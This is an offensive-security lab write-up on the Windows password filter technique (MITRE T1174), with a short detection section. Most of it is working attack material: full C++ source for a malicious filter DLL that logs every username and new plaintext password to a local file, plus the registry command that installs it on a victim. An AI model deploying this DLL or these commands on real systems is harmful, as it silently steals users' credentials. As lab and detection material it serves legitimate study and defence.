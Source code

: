 ```yaml
---
description: Credential Access
---
```


# T1174: Password Filter

This lab explores a native OS notification of when the user account password gets changed, which is responsible for validating it. That means, the password can be intercepted..

## Execution

Password filters are registered in registry and we can see them here:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Or via regedit:

![](../.gitbook/assets/password-filter-regedit.png)

Building an evil filter DLL based on a great [article](http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html) by mubix. He has also kindly provided the code to use, which I modified slightly to make sure that the critical DLL functions were exported in order for this technique to work since mubix's code did not work for me out of the box. I also had to change the logging statements in order to rectify a couple of compiler issues:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>
#include <stdio.h>
#include <iostream>
#include <fstream>
using namespace std;

void writeToLog(const char* szString)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	if (NULL == pFile)
	{
		return;
	}
	fprintf(pFile, "%s\r\n", szString);
	fclose(pFile);
	return;

}

extern "C" __declspec(dllexport) BOOLEAN __stdcall InitializeChangeNotify(void)
{
	OutputDebugString(L"InitializeChangeNotify");
	writeToLog("InitializeChangeNotify()");
	return TRUE;
}

extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordFilter(
	PUNICODE_STRING AccountName,
	PUNICODE_STRING FullName,
	PUNICODE_STRING Password,
	BOOLEAN SetOperation)
{
	OutputDebugString(L"PasswordFilter");
	return TRUE;
}

extern "C" __declspec(dllexport) NTSTATUS __stdcall PasswordChangeNotify(
	PUNICODE_STRING UserName,
	ULONG RelativeId,
	PUNICODE_STRING NewPassword)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	OutputDebugString(L"PasswordChangeNotify");
	if (NULL == pFile)
	{
		return true;
	}
	fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer, NewPassword->Buffer);
	fclose(pFile);
	return 0;
}
```

{% file src="../.gitbook/assets/evilpwfilter.dll" caption="Password Filter DLL" %}

Injecting the evil password filter into the victims system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg add "hklm\system\currentcontrolset\control\lsa" /v "notification packages" /d scecli\0evilpwfilter /t reg_multi_sz

Value notification packages exists, overwrite(Yes/No)? yes
The operation completed successfully.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/password-filter-updating-registry.png)

Testing password changes after the reboot - note how the password changes are getting logged:

![](../.gitbook/assets/password-filter-filter-working.png)

## Observations

Windows event `4614` notifies about new packages loaded by the SAM:

![](../.gitbook/assets/password-filter-log1.png)

Logging command line can also help in detecting this activity:

![](../.gitbook/assets/password-filter-cmdline.png)

...especially, if the package has just been recently dropped to disk:

![](../.gitbook/assets/password-filter-createdtime.png)

Also, maybe it is worth considering checking any new DLLs dropped to `%systemroot%\system32` for exported `PasswordChangeNotify` function?

![](../.gitbook/assets/password-filter.png)

{% embed url="http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1174" %}

